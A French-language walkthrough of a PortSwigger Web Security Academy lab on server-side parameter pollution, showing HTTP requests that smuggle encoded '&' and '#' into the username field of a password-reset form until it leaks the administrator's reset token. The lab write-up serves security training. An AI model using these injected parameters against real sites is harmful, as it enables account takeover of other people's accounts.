 # Lab

https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-query-string

## Solution

Sur la page de reset du mot de passe, on peut renseigner un nom d'utilisateur et envoyer un mail de réinitialisation de mot de passe :

```http
POST /forgot-password HTTP/2
Host: 0a0d0024042034dc869f945100c50079.web-security-academy.net
Cookie: session=83jAyneSqnOAO6U4dIreoEiJxrj4nmYJ
Content-Length: 81
Sec-Ch-Ua: "Not_A Brand";v="8", "Chromium";v="120"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Content-Type: x-www-form-urlencoded
Accept: */*
Origin: https://0a0d0024042034dc869f945100c50079.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a0d0024042034dc869f945100c50079.web-security-academy.net/forgot-password
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

csrf=Z5mUoWGhhG1MskZUvFizE6Ou9nnxica1&username=administrator
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 49

{"result":"*****@normal-user.net","type":"email"}
```

Si on essaie d'ajouter un paramètre avec `&`, on observe aucun changement.

En revanche, avec `&` encodé en `%26`, on observe que le paramètre a un impact sur la réponse :

```http
csrf=dmHDI79sypkTfv8hMC7hCKQu7HFNE2vz&username=administrator%26

{"error": "Parameter is not supported."}
```

La réponse laisse suggérer que le paramètre ajouté est interprété comme un paramètre séparé, au lieu qu'il soit interprété comme une partie du paramètre `username`.

On peut essayer de tronquer la query string côté serveur en ajoutant `#` encodé en `%23` :

```http
csrf=dmHDI79sypkTfv8hMC7hCKQu7HFNE2vz&username=administrator%23

{"error": "Field not specified."}
```

Le message nous indique que le champ `field` n'est pas spécifié.

Ce qui veut dire que côté serveur, il y a ce champ qui est ajouté à la fin de la query string.

Essayons de le spécifier nous-même :

```http
csrf=dmHDI79sypkTfv8hMC7hCKQu7HFNE2vz&username=administrator%26field=password

{"type":"ClientError","code":400,"error":"Invalid field."}
```

Le message nous indique que le champ `field` est invalide, si on essaie avec `email` :

```http
csrf=dmHDI79sypkTfv8hMC7hCKQu7HFNE2vz&username=administrator%26field=email

{"result":"*****@normal-user.net","type":"email"}
```

Dans le fichier `/static/js/forgotPassword.js` on voit : 

```js
forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

On peut donc ajouter `reset_token` à la query string :

```http
csrf=dmHDI79sypkTfv8hMC7hCKQu7HFNE2vz&username=administrator%26field=reset_token

{"result":"plk1n4pugc80et7z87kovkh35zz045o5","type":"reset_token"}
```

On a obtenu le token de réinitialisation de mot de passe et on peut aller sur `/forgot-password?reset_token=plk1n4pugc80et7z87kovkh35zz045o5` pour réinitialiser le mot de passe.